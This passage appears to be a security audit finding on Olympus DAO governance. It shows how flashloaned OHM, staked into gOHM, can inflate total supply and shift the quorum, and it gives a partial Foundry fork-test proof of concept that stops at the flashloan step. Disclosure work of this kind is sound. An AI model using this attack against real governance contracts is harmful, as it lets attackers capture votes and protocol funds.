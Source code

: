 ```
0x88051b0eea095007d3bef21ab287be961f3d8598 | UniV3 pool | 138'537 OHM
0x893f503fac2ee1e5b78665db23f9c94017aae97d | UniV3 pool |  14'935 OHM
0x79fe75708e834c5a6857a8b17eeac651907c1da8 | UniV2 pool |  26'438 OHM
0xfc1e8bf3e81383ef07be24c3fd146745719de48d | Curve pool |  23'353 OHM

Total = 138537 + 14935 + 26438 + 23353 = 203'263 OHM

Total gOHM = 203'263 * 0.0037 = 752.07 gOHM

Relative amount of gOHM minted = 752 / 65k = 1.16% of current total supply 
```

Finally note that, theoretically, the same attack vector exists in the opposite direction: given that unstaking `gOHM` burns the unstaked amount, `gOHM.totalSupply` can be pushed to a lower value. This vector isn't currently exploitable, as a negligible amount of `~40 gOHM`, equal to `~0.06%` of `gOHM.totalSupply`, was found to be available for flashloans via Uniswap V3 LPs and a Fraxlend Pair.

#### Impact

Medium. Quorum vote amount can be manipulated via flashloans and the current `gOHM` minting process.

#### PoC

To verify the finding, a new test file has been created with the following fork test. 
To execute the PoC, insert the following content in a new test file, e.g. `src/test/external/governance/GovernorBravoDelegateForkTest.t.sol` and execute it via `forge t --mt test_flashloan_quorum_manipulation_poc --rpc-url $ETH_RPC_URL --fork-block-number 20921273`:

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity 0.8.15;

import {Test} from "forge-std/Test.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";
import {console2} from "forge-std/console2.sol";

import {GovernorBravoDelegator} from "src/external/governance/GovernorBravoDelegator.sol";
import {GovernorBravoDelegate} from "src/external/governance/GovernorBravoDelegate.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
}

interface IOlympustStaking {
    function stake(address to, uint256 amount, bool rebasing, bool claim) external returns (uint256);
    function unstake(address to, uint256 amount, bool trigger, bool rebasing) external returns (uint256);
}

contract GovernorBravoDelegateForkTest is Test {
    using Address for address;

    GovernorBravoDelegator internal governorBravoDelegator;

    function setUp() public {
        governorBravoDelegator = GovernorBravoDelegator(payable(0x0941233c964e7d7Efeb05D253176E5E634cEFfcD));
    }

    function test_flashloan_quorum_manipulation_poc() public {
        // Attacker pulls OHM flashloan
```